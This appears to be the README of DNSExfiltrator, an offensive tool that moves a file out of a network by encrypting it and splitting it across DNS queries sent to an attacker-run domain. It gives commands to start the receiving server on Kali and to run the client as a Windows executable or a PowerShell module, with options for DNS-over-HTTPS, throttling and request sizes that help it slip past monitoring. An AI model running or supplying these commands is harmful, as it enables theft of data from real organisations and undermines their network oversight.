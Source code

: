 <img src="https://dl.dropboxusercontent.com/s/z3hjd513jens17e/dnsExfiltrator_04.jpg?dl=0" width="600">

Dependencies
----------------------

The only dependency is on the server side, as the `dnsexfiltrator.py` script relies on the external **dnslib** library. You can install it using pip:
```
pip install -r requirements.txt
```

Usage
----------------------

***SERVER SIDE***

Start the `dnsexfiltrator.py` script passing it the domain name and decryption password to be used:
```
root@kali:~# ./dnsexfiltrator.py -d mydomain.com -p password
```

***CLIENT SIDE***

You can **either** use the compiled version, **or** the PowerShell wrapper (*which is basically the same thing*) **or** the JScript wrapper. In any case, the parameters are the same, with just a slight difference in the way of passing them in PowerShell.

1/ Using the C# compiled Windows executable (*which you can find in the `release` directory*):
```
dnsExfiltrator.exe <file> <domainName> <password> [-b32] [h=google|cloudflare] [s=<DNS_server>] [t=<throttleTime>] [r=<requestMaxSize>] [l=<labelMaxSize>]
      file:           [MANDATORY] The file name to the file to be exfiltrated.
      domainName:     [MANDATORY] The domain name to use for DNS requests.
      password:       [MANDATORY] Password used to encrypt the data to be exfiltrated.
      -b32:           [OPTIONNAL] Use base32 encoding of data. Might be required by some DNS resolver break case.
      h:              [OPTIONNAL] Use Google or CloudFlare DoH (DNS over HTTP) servers.
      DNS_Server:     [OPTIONNAL] The DNS server name or IP to use for DNS requests. Defaults to the system one.
      throttleTime:   [OPTIONNAL] The time in milliseconds to wait between each DNS request.
      requestMaxSize: [OPTIONNAL] The maximum size in bytes for each DNS request. Defaults to 255 bytes..
      labelMaxSize:   [OPTIONNAL] The maximum size in chars for each DNS request label (subdomain). Defaults to 63 chars.
```
<img src="https://dl.dropboxusercontent.com/s/jqzptt5tqc2e8z9/dnsExfiltrator_01.jpg?dl=0" width="900">


2/ Using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSExfiltrator> powershell
PS c:\DNSExfiltrator> Import-Module .\Invoke-DNSExfiltrator.ps1
PS c:\DNSExfiltrator> Invoke-DNSExfiltrator -i inputFile -d mydomain.com -p password -s my.dns.server.com -t 500
[...]
```
Check the EXAMPLES section in the script file for further usage examples.
<img src="https://dl.dropboxusercontent.com/s/067lffd4s45esmu/dnsExfiltrator_02.jpg?dl=0" width="900">
